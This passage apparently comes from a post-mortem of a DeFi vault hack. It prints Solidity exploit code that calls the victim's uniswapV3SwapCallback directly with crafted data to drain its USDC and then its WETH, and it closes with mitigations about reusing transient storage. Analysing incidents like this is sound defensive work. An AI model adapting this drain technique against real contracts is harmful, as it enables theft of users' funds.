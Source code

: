 ```solidity
        bytes memory data = abi.encode(msg.sender, exploitCoordinator, vaultParams, vaultState, reserves, false, true);

        uint256 amountToSteal = usdc.balanceOf(address(victim));

        victim.uniswapV3SwapCallback(
            0,
            int256(amountToSteal),
            data
        );

        uint256 usdcBalance = usdc.balanceOf(address(this));
        usdc.transfer(exploitCoordinator, usdcBalance);
    }
}
```

This setup also allowed the `ExploitCoordinator` contract to repeat the callback using the same technique, enabling further draining rounds if desired.

The attacker prepared new `VaultParameters` structures, swapping out the debt token for other valuable assets like WBTC and WETH. With each new asset, they crafted a matching data payload and called `uniswapV3SwapCallback` directly again.

```solidity
IVault.VaultParameters memory vaultParamsWeth = IVault.VaultParameters({
    debtToken: address(weth),
    collateralToken: address(this),
    leverageTier: 0
});

data = abi.encode(msg.sender, address(this), vaultParamsWeth, vaultState, reserves, false, true);

uint256 wethBalanceVictim = weth.balanceOf(address(victim));
victim.uniswapV3SwapCallback(
    0,
    int256(wethBalanceVictim),
    data
);
```

## Possible mitigations

1. Use separate transient storage slots for different values. Don’t store both the pool address and the minted amount in the same slot.
2. Clear transient storage manually after performing critical checks, to avoid unintended reuse later in the transaction.
